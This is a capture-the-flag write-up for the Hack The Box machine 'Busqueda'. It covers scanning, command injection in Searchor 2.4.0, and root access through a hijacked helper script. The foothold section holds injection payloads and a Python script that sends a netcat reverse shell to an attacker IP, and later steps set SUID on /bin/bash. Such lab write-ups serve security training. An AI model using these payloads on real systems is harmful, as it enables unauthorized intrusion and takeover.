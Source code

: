 +++
title = 'Busqueda'
description = 'Easy Linux box'
date = 2024-08-24T16:50:47-04:00
draft = false
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++

# Enum
```bash
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Find a hostname `searcher.htb`, adding to `/etc/hosts`

# 80 - HTTP


If we select apple as the engine and test as the search string, it presents an URL as shown below.


There's also an option for an auto redirect.

`Searchor 2.4.0`





https://github.com/ArjunSharda/Searchor/pull/130



---
# Foothold

*Exploit code*

Looking at one of the exploit links >> https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Due to an eval call we should be able to execute system commands via the web application.

We can download the exploit script, set up a nc listener on our attacker box, then run the exploit to get a reverse shell OR we could look at the exploit code to see how it works and try to exploit the vulnerability manually.

Lets try option 2. 



The exploit builds a reverse shell payload and base64 encodes it, and an evil_cmd variable holding python code to run a python.system command. They then use a curl request to send a POST HTTP request to the server with parameters injecting the evil_cmd into the query variable.

This looks a lot simpler once we capture a request with burp suite.



A captured request to the server. We're going to inject python code into the query variable.

We can check to verify our syntax is correct by running the following python command:
`engine=Apple&query="',__import__('os').system('id'))#`



What this command is doing is a double quote, a single quote, and comma as formatting to break out of the expected input. Importing the python os library, running the os.system method, allowing us to run linux system commands like 'id'.

Looking at the response we see the application is running as user 'svc'.

Next we can create a reverse shell and try to get our foothold. A great tool for reverse shells is https://www.revshells.com/. We're going to want to base64 encode the payload to avoid any issues with formatting.



In this case I'll just be using a simple bash reverse shell, using the built in function to base64 encode the payload.


Don't forget to set up a listener.
nc -lnvp 8443

We can inject our encoded shell code within our python code, make sure to base64 decode it, and execute it with bash


Send the request and check your listener!

Awesome, we have a shell. We'll want to use some magic to get a full TTY to make our lives easier with tab complete.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
#hit control z to background the shell
stty raw -echo ; fg ; reset
```




We can take this and write a quick python script to get a reverse shell.
```python
import requests

url = 'http://searcher.htb/search'

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://searcher.htb',
    'Connection': 'close',
    'Referer': 'http://searcher.htb/',
    'Upgrade-Insecure-Requests': '1'
}

#command = input("Enter the command to execute: ")
lhost = '10.10.14.2'
lport = '9002'
command = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ' + lhost + ' ' + lport + ' >/tmp/f'

data = {
    'engine': 'Google',
    'query': f"',exec(__import__('os').system('{command}')))#"
}

response = requests.post(url, headers=headers, data=data)

print(response.text)            
```


## Exploits


--- 
# PrivEsc

Now that we're on a stable shell on the box, lets start enumerating for priv escalation. My first step is usually to check to see where we landed and if we can find anything interesting. 


We immediately find a .git folder and a config file containing a username (cody), a potential password (jh1usoih2bkjaspwe92), and a new subdomain.



Checking /etc/passwd we don't see a cody user on the box. Ip information shows we're likely in a docker container running the application.



.git/config file with a cred. We also appear to be in a docker container based on ip info.
`cody:jh1usoih2bkjaspwe92`

We can add the subdomain to our /etc/hosts file and log in to it with the creds we found

This seems to be a rabbit hole as we can login as the user cody but don't find a way to escalate our privileges.

Lets just for some password reuse and check if the svc user uses the same password as cody.



Using the cred we found for cody, as we don't find a cody user on the box in the passwd file, we can try to check sudo privs for the `svc` user using the same password.





We can run `/usr/bin/python3 /opt/scripts/system-checkup.py *`


Checking file permissions for the script, we see it's owned by root and we do not have the ability to modify or view the code.


We'll likely have to look into the function of the script and arguments. Lets try docker-ps argument to list running containers.



We find two running containers, gitea and mysql. Since this command appears to function similar to "docker ps", we can guess the docker-inspect is similar to docker inspect.

We can review the syntax for docker inspect here >> https://docs.docker.com/reference/cli/docker/inspect/

We can use this command to dump the config of the container with the following command:
`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{.Config}}' gitea`



`administrator:yuiu1hoiu4i5ho1uh`
We can then login try to login as the administrator user of the gitea instance on the web server.


Success! We get access to the gitea server as the administrator user and can review the contents of the scripts folder. 


The contents of system-checkup.py, the command we can execute with sudo privs, shows something interesting.

The full path isn't included when the script references `full-checkup.sh` meaning we can hijack `full-checkup.sh` with our own file in another directory. As we run the script via sudo, we should be able to get a root shell.

Instead of setting up another listener and attempting to get a root shell, lets try modifying a binary we know we can use to escalate privileges with. In this case, lets use /bin/bash to get root by changing the permissions of the binary.


We can change the perms for /bin/bash to SUID by creating a full-checkup.sh file with the following contents and making it executable within the tmp directory:
```
#!/bin/bash
chmod u+s /bin/bash
```

We then want to run the following command to execute our hijacked full-checkup.sh script.

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

Next we use an simple command found on https://gtfobins.github.io/gtfobins/bash/#suid to get a root shell



And we're done, we see our euid=0 making us effectively root! We can go and grab the root flag, submit it, and call it a day.


## Exploits





